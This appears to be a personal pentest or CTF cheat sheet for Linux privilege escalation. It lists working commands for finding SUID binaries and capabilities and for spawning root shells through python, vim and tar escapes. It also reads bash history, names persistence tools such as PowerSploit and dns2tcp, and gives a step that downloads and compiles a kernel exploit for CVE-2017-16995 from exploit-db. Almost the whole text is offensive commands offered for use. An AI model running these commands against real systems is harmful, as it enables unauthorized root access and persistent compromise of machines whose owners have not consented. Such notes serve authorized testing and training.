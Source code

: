 
INPUT: Shell
PROCESS:
- Stablish Shell
- Privilege Escalation
- Maintain Access
TOOLS
- https://gtfobins.github.io/
OUPUT: 
- root shell



## Privilege Escalation
getcap -r / 2>/dev/null

Python Library Hijacking on Linux

[SUID] find / -perm /4000 2>/dev/null
    - [python] <python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'>
[sudo] <id; sudo -l; sudo -V>
- [vim] <sudo vim -c ':!/bin/sh'>
[WebServer]:
- [python3]: python3 module <python3 -m http.server>
[Bash]  
- [History] <cat .bash_history>
[vsftpd]
- !/bin/bash
[tar]    
    <sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh>
    <sudo install -m =xs $(which tar)
    ./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh>

find / -type f -user root -perm -u=s 2>/dev/null
find / -perm -u=s -type f 2>/dev/null

## Maintain Access
- PowerSploit
- Weewly
- dns2tcp


[cve-2017-16995]
    wget https://www.exploit-db.com/download/45010 -O cve-2017-16995.c
    gcc --static cve-2017-16995.c -o cve-2017-16995    
